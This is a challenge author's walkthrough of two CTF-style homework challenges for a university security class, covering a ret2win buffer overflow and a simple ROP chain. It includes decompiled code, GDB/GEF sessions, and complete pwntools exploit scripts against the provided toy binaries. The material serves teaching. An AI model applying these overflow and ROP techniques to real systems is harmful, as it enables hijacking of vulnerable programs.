


Challenge author walkthrough of the binary exploitation homework for UCSC's CSE-132 Fall 2024 class. I hope you all learned something new about the cool world of pwn.

<!-- more -->

## Simple Win
!!! info annotate "Challenge Description"
    Made a pretty simple C binary, nothing special...

    Can you win?

    Provided: ./chall (1)

1. chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=41fbd6c57d97296ebcc8327057a04491bdb9d34c, for GNU/Linux 3.2.0, not stripped

As with any challenge, first we should try running this program normally:

```bash
$ ./chall 
hey bud, how's it goin'? what's your name?
> fbaaaaaaaaaad
hey hey nice to meet ya, fbaaaaaaaaaad
just don't be snooping around my code and we'll get along fine...
```

Ok, so it seems like it prompted us for a name, then not much from there. Quickly running this through Ghidra to get a decompilation to understand what is happening, we see the following:

### Decompiled Code
```c 
void win(void) {
  char local_118 [264];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts(":3c hmm how\'d you get here?? try this on the real server to get the flag...");
  } else {
    fgets(local_118,0x100,local_10);
    puts(local_118);
    fclose(local_10);
  }

  return;
}

undefined8 main(void) {
  char local_48 [64];
  
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("hey bud, how\'s it goin\'? what\'s your name?");
  printf("> ");
  gets(local_48);
  printf("hey hey nice to meet ya, %s\n",local_48);
  puts("just don\'t be snooping around my code and we\'ll get along fine...");

  return 0;
}
```

Clearly, this is a simple ret2win (a buffer overflow attack that redirects execution to a "win" function) challenge. The vulnerable line in our case is the gets() function. If you're unfamiliar, gets() allows you to input data larger than the allocated buffer size, enabling you to overflow the stack and override registers. Let's show an example of this with GDB:

```
$ gdb -q chall 
Reading symbols from chall...
(No debugging symbols found in chall)

gef➤  run
hey bud, how's it goin'? what's your name?
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x00007fffffffdb48  →  0x00007fffffffdf03  →  "/pwn-simple-win/[...]"
$rcx   : 0x00007ffff7eb32c0  →  0x5877fffff0003d48 ("H="?)
$rdx   : 0x1               
$rsp   : 0x00007fffffffda38  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAA"
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x1               
$rdi   : 0x00007ffff7f8fa10  →  0x0000000000000000
$rip   : 0x000000000040128f  →  <main+148> ret 
$r8    : 0x0000000000405305  →  0x0000000000000000
$r9    : 0x73              
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffdb58  →  0x00007fffffffdf3b  →  "CLUTTER_IM_MODULE=ibus"
$r14   : 0x0000000000403e00  →  0x0000000000401150  →  <__do_global_dtors_aux+0> endbr64 
$r15   : 0x00007ffff7ffd020  →  0x00007ffff7ffe2e0  →  0x0000000000000000
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffda38│+0x0000: "AAAAAAAAAAAAAAAAAAAAAAAAAAAA"       ← $rsp
0x00007fffffffda40│+0x0008: "AAAAAAAAAAAAAAAAAAAA"
0x00007fffffffda48│+0x0010: "AAAAAAAAAAAA"
0x00007fffffffda50│+0x0018: 0x0000000041414141 ("AAAA"?)
0x00007fffffffda58│+0x0020: 0x00007fffffffdb48  →  0x00007fffffffdf03  →  "/pwn-simple-win/[...]"
0x00007fffffffda60│+0x0028: 0x00007fffffffdb48  →  0x00007fffffffdf03  →  "/pwn-simple-win/[...]"
0x00007fffffffda68│+0x0030: 0x2636e545aa3b0b1f
0x00007fffffffda70│+0x0038: 0x0000000000000000
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x40128f in main (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40128f → main()
```

Here we gave the program 100 'A's, much larger than the buffer we saw inside the main function, and the result? The binary segments or crashes because it tried to jump to an invalid address. The reason behind this is because we filled that name buffer so much, that it kept writing over the stack, and thus the return register.

In our case, the binary is compiled in x86-64, so the register that controls the next instruction is RSP. This is the register we want to control since it will let us control what instruction the binary jumps to next. We can do this very easily using [de Bruijn Sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence), also known as a cyclic pattern, which is also built into [GEF](https://hugsy.github.io/gef/)! We can easily get the offset needed to get RSP by doing the following:


```
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'

gef➤  run
hey bud, how's it goin'? what's your name?
> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffda38│+0x0000: "jaaaaaaakaaaaaaalaaaaaaamaaa"       ← $rsp
0x00007fffffffda40│+0x0008: "kaaaaaaalaaaaaaamaaa"
0x00007fffffffda48│+0x0010: "laaaaaaamaaa"
0x00007fffffffda50│+0x0018: 0x000000006161616d ("maaa"?)
0x00007fffffffda58│+0x0020: 0x00007fffffffdb48  →  0x00007fffffffdf03  →  "/pwn-simple-win/[...]"
0x00007fffffffda60│+0x0028: 0x00007fffffffdb48  →  0x00007fffffffdf03  →  "/pwn-simple-win/[...]"
0x00007fffffffda68│+0x0030: 0x6d6484d5603fb66b
0x00007fffffffda70│+0x0038: 0x0000000000000000
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x40128f in main (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40128f → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

gef➤  pattern search $rsp
[+] Searching for '6a61616161616161'/'616161616161616a' with period=8
[+] Found at offset 72 (little-endian search) likely
```

And just like magic, we now know the offset we need to control RSP is 72. Now all that's left is to get the address for the `win` function. We can do that pretty easily:

```
gef➤  info func win
All functions matching regular expression "win":

Non-debugging symbols:
0x0000000000401186  win
```

So `win` is at `0x401186`. Throw that into a simple pwnlib script:

```py
from pwn import *
p = process('./chall')

payload = b'A' * 72 # either do some pwntools cyclic stuff or GEF cyclic find rsp offset
payload += p64(0x401186)  # jump to win

p.sendlineafter('> ', payload)
print(p.recvall().decode())
```

Uh oh, running this we get the following:
```bash
$ python exploit.py
[+] Starting local process './chall': pid 785692
[+] Receiving all data: Done (204B)
[*] Process './chall' stopped with exit code -11 (SIGSEGV) (pid 785692)
```

We get a segmentation fault! What's wrong?! Let's open this in gdb by replacing our `process('./chall')` with `gdb.debug('./chall')`. Running it again will open GDB for us and show what went wrong:

### Stack Misalignment
```
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffdfd5112d8│+0x0000: 0x00000000004011fb  →  <main+0> push rbp     ← $rsp
0x00007ffdfd5112e0│+0x0008: 0x0000000100400040 ("@"?)
0x00007ffdfd5112e8│+0x0010: 0x00007ffdfd5113d8  →  0x00007ffdfd512f76  →  0x006c6c6168632f2e ("./chall"?)
0x00007ffdfd5112f0│+0x0018: 0x00007ffdfd5113d8  →  0x00007ffdfd512f76  →  0x006c6c6168632f2e ("./chall"?)
0x00007ffdfd5112f8│+0x0020: 0x5793733b7c5cc4d9
0x00007ffdfd511300│+0x0028: 0x0000000000000000   ← $rip
0x00007ffdfd511308│+0x0030: 0x00007ffdfd5113e8  →  0x00007ffdfd512f7e  →  "CLUTTER_IM_MODULE=ibus"
0x00007ffdfd511310│+0x0038: 0x0000000000403e00  →  0x0000000000401150  →  <__do_global_dtors_aux+0> endbr64 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x7ffdfd511300 in ?? (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ffdfd511300 → add BYTE PTR [rax], al
[#1] 0x4011fb → win()
```

Clearly, this is the problem. We're being redirected to an incorrect address. Why did this happen? Well, we can see that instead of jumping to `0x401186`, we jumped to `0x7ffdfd511300`. This is due to the stack being misaligned (x86_64 requires 16-byte stack alignment before making calls). The easiest solution for this is to pad the payload with a `ret`. We can use pwnlib's built-in ROP finder to do this for us:

### Final Solution

```py
from pwn import *
p = process('./chall')

elf = ELF('./chall')
rop = ROP(elf)

payload = b'A' * 72 # either do some pwntools cyclic stuff or GEF cyclic find rsp offset
payload += p64(rop.find_gadget(['ret'])[0])  # find and pick the first lone ret instruction for stack alignment
payload += p64(0x401186)  # jump to win (since this binary is not stripped, you can use elf.symbols['win'] instead of the addr)

p.sendlineafter('> ', payload) # send the payload
print(p.recvall().decode())
```

Running this we get:

```
$ python exploit.py
[+] Starting local process './chall': pid 792122
[*] '/pwn-simple-win/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[*] Loaded 5 cached gadgets for './chall'
[+] Receiving all data: Done (204B)
[*] Process './chall' stopped with exit code -11 (SIGSEGV) (pid 792122)
hey hey nice to meet ya, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x16@
just don't be snooping around my code and we'll get along fine...
:3c hmm how'd you get here?? try this on the real server to get the flag...
```

Sweet, now we can just replace the `process('./chall')` with the server using `remote('ip.addr.of.server', port)`, and you'll get the real flag.

## Simple ROP
!!! info annotate "Challenge Description"
    Prove yourself and get the job

    Provided: ./chall (1)

1. chall: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=b2442b0ca0e49a7aae3f365a97947191f76676f2, for GNU/Linux 3.2.0, stripped

This challenge is pretty similar to the last one, but with a slight twist. Since the binary is decompiled, you may need to find `entry` with Ghidra first and track down `main`. With that, you can also find the other "win" function by looking at defined strings and checking places where they've been used.



From this we can get some logic from the decompiler:

### Decompiled Code 
```c
void FUN_004016f5(undefined8 param_1) {
  int iVar1;
  undefined local_118 [264];
  long local_10;
  
  iVar1 = thunk_FUN_0041eda0(param_1,"sluggggggggggggggggggsecure_umm_yeah_i_sure_hope_it_is");
  if (iVar1 == 0) {
    local_10 = FUN_004104d0("flag.txt",&DAT_0047a078);
    
    if (local_10 == 0) {
      FUN_00410930("wowza you\'re a pro!! submit this solution to our server for the real reward");
    } else {
      FUN_00410240(local_118,0x100,local_10);
      FUN_00410930("here\'s your signing bonus: ");
      FUN_00410930(local_118);
      FUN_0040ff50(local_10);
    }
  } else {
    FUN_00410930("sorry no can do buddy, wrong password, turn back around");
  }
  return;
}

undefined8 FUN_004017ae(void) {
  undefined local_58 [80];
  
  FUN_00412840(PTR_DAT_004a66d0,0);
  FUN_00412840(PTR_DAT_004a66c8,0);
  FUN_00410930("=== Slug Security Technical Interview ===");
  FUN_00410930("welcome candidate! before we begin, please tell us your name....");
  FUN_0040a1c0(&DAT_0047a161);
  FUN_00410690(local_58);
  FUN_0040a1c0("\nnice to meet ya %s!\n",local_58);
  FUN_00410930("let\'s test your binary exploitation skills. only the best hackers can join our team. ..");
  FUN_00410930("i am not impressed. this meeting is over.");
  return 0;
}
```

So from reading the decompilation, we can tell that the first function is obviously the `win` func, but in addition, we see that it takes a parameter, which is compared against `sluggggggggggggggggggsecure_umm_yeah_i_sure_hope_it_is`. This tells us that we're going to need to most likely use ROP (return oriented programming) to create a chain of gadgets (instructions) to load it into memory since within the code, this function is never called. In addition, Ghidra also tells us the address of the win function (since the binary is stripped, Ghidra names functions FUN_<addr>). So `0x4016f5` is our `win` func.

Let's start off doing the same thing as the previous challenge, using a cyclic pattern to figure out an offset to control RSP.

```
$ gdb -q chall 
Reading symbols from chall...
(No debugging symbols found in chall)

gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'

gef➤  run
Starting program: /home/fbad/Documents/Git/CSE132-HW/pwn-simple-rop/chall 
=== Slug Security Technical Interview ===
welcome candidate! before we begin, please tell us your name....
> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

[...]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffd988│+0x0000: "laaaaaaamaaa"       ← $rsp
0x00007fffffffd990│+0x0008: 0x000000006161616d ("maaa"?)
0x00007fffffffd998│+0x0010: 0x00000000004017ae  →   push rbp
0x00007fffffffd9a0│+0x0018: 0x0000000100000018
0x00007fffffffd9a8│+0x0020: 0x00007fffffffdb48  →  0x00007fffffffdf03  →  "/home/fbad/Documents/Git/CSE132-HW/pwn-simple-rop/[...]"
0x00007fffffffd9b0│+0x0028: 0x00007fffffffdb58  →  0x00007fffffffdf3b  →  "CLUTTER_IM_MODULE=ibus"
0x00007fffffffd9b8│+0x0030: 0x919b51f97047a5a4
0x00007fffffffd9c0│+0x0038: 0x0000000000000001
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x401860 in ?? (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x401860 → ret 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

gef➤  pattern search $rsp
[+] Searching for '6c61616161616161'/'616161616161616c' with period=8
[+] Found at offset 88 (little-endian search) likely
```

So we have an offset of 88. Similar to last time, we need to make sure it's stack aligned so we'll do the same exact thing to align it. Here's our exploit script so far:

```py
$ cat solve.py 
from pwn import *

p = process('./chall')
elf = ELF('./chall')
rop = ROP(elf)

payload = b'A' * 88 # offset to control rsp, found using cyclic pattern
payload += p64(rop.find_gadget(['ret'])[0]) # align stack
payload += p64(0x4016f5)

p.sendlineafter('> ', payload)
print(p.recvall().decode())
```

Running it we get:

```bash
$ python solve.py 
[+] Starting local process './chall': pid 841665
[*] '/pwn-simple-rop/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Receiving all data: Done (295B)
[*] Process './chall' stopped with exit code -7 (SIGBUS) (pid 841665)

nice to meet ya AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x16@!
let's test your binary exploitation skills. only the best hackers can join our team...
i am not impressed. this meeting is over.
sorry no can do buddy, wrong password, turn back around
```

Ok sweet, so we got into the win function, but we still need to give it the password. How do we do that? Well, the beauty of this challenge is that we need to create a ROP chain, essentially picking assembly instructions within the binary to create a custom flow - in our case, we want to load the password for the win function into memory. Before we do that, let's figure out what's happening with that password check.

Within Ghidra we can see the following stripped function call:



At `0x40171b`, we call this function, and if it returns a 0, then we continue; anything else and it's an incorrect password. If you've ever programmed in C, you can tell that this behaves as `strcmp` would. Now, there are two ways you can go about this: either you can read the assembly from the listing view within Ghidra to see that the parameter it's compared against is loaded into the RDI register, or you can set a breakpoint in GDB at that call to see what the program is doing.

Let's try the GDB method by converting our `process('./chall')` call to `gdb.debug('./chall', 'b *0x40171b')`. GEF quickly makes light work for us by telling us what the arguments are for this function call:

```
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
0x4010a0 (
   $rdi = 0x00000000004a9190 → 0x0000000000000000,
   $rsi = 0x000000000047a008 → "sluggggggggggggggggggsecure_umm_yeah_i_sure_hope_i[...]",
   $rdx = 0x000000000047a008 → "sluggggggggggggggggggsecure_umm_yeah_i_sure_hope_i[...]"
)
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x40171b in ?? (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40171b → call 0x4010a0
[#1] 0x401700 → mov QWORD PTR [rbp-0x118], rdi
```

As you can see, our RDI is empty because we never passed in an argument to the function. So let's do that.

### Passing In A Password
The way we want to do this is by popping a value into RDI (we pop things to registers using "pop" gadgets, which are assembly instructions that load values from the stack into registers). First, we need to find a `pop rdi` gadget in our binary to help set up our function call. We also want to `ret` so we maintain proper stack alignment. There are a few ways we can do this, but since we're already using pwnlib, we can just use the integrated ROP library, just like we did in the Simple Win challenge. Then pass in our password!

Here's our solve script so far:

```py
$ cat solve.py 
from pwn import *

p = gdb.debug('./chall', 'b *0x40171b') # strcmp within win func
elf = ELF('./chall')
rop = ROP(elf)

payload = b'A' * 88 # offset to control rsp, found using cyclic pattern
payload += p64(rop.find_gadget(['ret'])[0]) # align stack
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0]) # pop arg into rdi since thats what strcmp is checking against
payload += b'sluggggggggggggggggggsecure_umm_yeah_i_sure_hope_it_is'
payload += p64(0x4016f5)

p.sendlineafter('> ', payload)
print(p.recvall().decode())
```

Let's run it and see what happens:


```
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x00007ffc3b3d4ab8  →  0x00007ffc3b3d5f7e  →  "CLUTTER_IM_MODULE=ibus"
$rcx   : 0x00000000004396e0  →  0x5877fffff0003d48 ("H="?)
$rdx   : 0x1               
$rsp   : 0x00007ffc3b3d4900  →  0x6767676767676767 ("gggggggg"?)
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x1               
$rdi   : 0x6767676767756c73 ("sluggggg"?)
$rip   : 0x0000000000401ea1  →   ret 
$r8    : 0x000000001b9d0797  →  0x0000000000000000
$r9    : 0x0               
$r10   : 0xffffffff        
$r11   : 0x202             
$r12   : 0x1               
$r13   : 0x00007ffc3b3d4aa8  →  0x00007ffc3b3d5f76  →  0x006c6c6168632f2e ("./chall"?)
$r14   : 0x1               
$r15   : 0x1               
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x401ea1 in ?? (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x401ea1 → ret 
```

Uh oh, seems like it segments. Why is that? Well, this is due to how we're passing the string to strcmp. Looking at our registers, we can see that RDI contains `"sluggggg"`, but this is being loaded directly from our payload as a value rather than as a pointer to a string in memory. **`strcmp` expects pointers to strings, not the string data itself**.

So instead of loading the actual password, we need to load the address of where the password is. We can do this in two ways: get the string address from Ghidra, or again, use pwnlib. Within pwnlib we can use `elf.search()` to get the location of the string. Here's that applied:

### Final Solution
```py
$ cat solve.py 
from pwn import *

p = gdb.debug('./chall', 'b *0x40171b') # strcmp within win func
elf = ELF('./chall')
rop = ROP(elf)

payload = b'A' * 88 # offset to control rsp, found using cyclic pattern
payload += p64(rop.find_gadget(['ret'])[0]) # align stack
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0]) # pop arg into rdi since thats what strcmp is checking againsti

password_addr = next(elf.search(b'sluggggggggggggggggggsecure_umm_yeah_i_sure_hope_it_is'))
payload += p64(password_addr)
payload += p64(0x4016f5)

p.sendlineafter('> ', payload)
print(p.recvall().decode())
```

Running it, we can see that GEF says all of our values are loaded at the strcmp breakpoint!

```
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
0x4010a0 (
   $rdi = 0x000000000047a008 → "sluggggggggggggggggggsecure_umm_yeah_i_sure_hope_i[...]",
   $rsi = 0x000000000047a008 → "sluggggggggggggggggggsecure_umm_yeah_i_sure_hope_i[...]",
   $rdx = 0x000000000047a008 → "sluggggggggggggggggggsecure_umm_yeah_i_sure_hope_i[...]"
)
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x40171b in ?? (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40171b → call 0x4010a0
[#1] 0x7ffd9147e300 → add BYTE PTR [rax], al
[#2] 0x7ffd9147e3d8 → jle 0x7ffd9147e3c9
```

And we get our output:

```
$ python solve.py
[+] Starting local process '/usr/bin/gdbserver': pid 850069
[*] running in new terminal: ['/usr/bin/gdb', '-q', './chall', '-x', '/tmp/pwn15zls2jp.gdb']
[*] '/pwn-simple-rop/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Receiving all data: Done (361B)
[*] Process '/usr/bin/gdbserver' stopped with exit code 0 (pid 850072)

nice to meet ya AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x16@!
let's test your binary exploitation skills. only the best hackers can join our team...
i am not impressed. this meeting is over.
wowza you're a pro!! submit this solution to our server for the real reward
```

Just like the last one, replace the `gdb.debug()`/`process()` call with `remote()` to connect to the challenge instance and get the real flag.
